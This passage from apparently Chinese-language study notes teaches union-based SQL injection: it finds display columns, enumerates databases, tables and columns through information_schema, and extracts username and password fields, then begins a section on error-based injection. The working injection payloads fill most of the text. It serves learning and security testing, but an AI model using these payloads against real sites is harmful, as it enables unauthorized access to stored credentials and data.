 ###### ③判断回显点

```sql
1' union select 1,2 -- 123
-1' union select 1,2 -- 123		//使用-1来使union前半语句无查询返回值
```

###### ④查看数据

1. 查看数据库数、数据库名

   ```sql
   user()	//返回当前使用数据库的用户
   version()	//返回当前数据库版本
   database()	//返回当前使用的数据库名
   
   #显示所有数据库的信息并显示数据库名
   -1' union select schema_name,2 from information_schema.schemata --+ 
   -1' union select database(),2 --+
   ```

2. 查看表数、表名

   ```sql
   #获取表数
   -1' union select count(table_name),2 from information_schema.tables where table_schema = 'liuyanban' --+                '
   
   #获取所有表名
   -1' union select table_name,2 from information_schema.tables where table_schema = 'liuyanban' --+
   ```

3. 查看字段数、字段名

   ```sql
   #获取字段数
   -1' union select null,count(column_name) from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' --+      '
   
   #选取指定表内所有字段名
   -1' union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' --+
   ```

4. 查看字段内数据

   ```sql
   #获取字段内容
   -1' union select 1,concat_ws("_",username,password) from admim --+
   ```

#### (2). 报错注入

##### a. 定义

* 利用数据库的**某些机制**，**人为的**制造出错误条件，使得查询结果能够出现在**报错信息中**。因此可以想办法**构造语句**，使得**错误信息中可以显示**数据库内容
